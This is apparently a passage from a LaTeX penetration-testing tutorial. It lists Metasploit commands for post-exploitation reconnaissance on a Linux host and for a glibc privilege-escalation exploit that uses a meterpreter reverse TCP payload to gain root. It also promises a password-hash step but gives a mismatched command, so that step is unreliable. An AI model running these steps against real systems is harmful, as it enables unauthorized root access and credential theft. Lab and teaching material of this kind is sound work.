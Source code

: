 \begin{itemize}
    \item Check if the target is a virtual machine:\\
    \texttt{run post/linux/gather/checkvm}
    \item Get network configuration:\\
    \texttt{run post/linux/gather/enum\_network}
    \item Get possible local exploits\\
    \texttt{run post/multi/recon/local\_exploit\_suggester}
\end{itemize}

\subsection{Getting Admin Access}

Once we obtained a session, we can execute some of the local exploits suggested by the previous script:

\begin{itemize}
    \item\texttt{meterpreter > background} (This will show a session name)
    \item\texttt{msf5 > use exploit/linux/local/glibc\_ld\_audit\_dso\_load\_priv\_esc}
    \begin{infobox}
        The next session is the one we obtained by issuing \texttt{meterpreter > background} 
    \end{infobox}
    \item\texttt{msf5 > set session 3}
    \begin{warnbox}
        The exploit \texttt{glibc\_ld\_audit\_dso\_load\_priv\_esc} is configured by default to run a meterpreter reverse tcp but for x64 architecture.
    \end{warnbox}    

    \item\texttt{msf5 > set payload linux/x86/meterpreter/reverse\_tcp}
    \item\texttt{msf5 > run}
\end{itemize}

After we obtain root privileges, we can run more scripts, for example:

\begin{itemize}
    \item Get the password hashes:\\
    \texttt{meterpreter > run post/linux/gather/enum\_network}
\end{itemize}

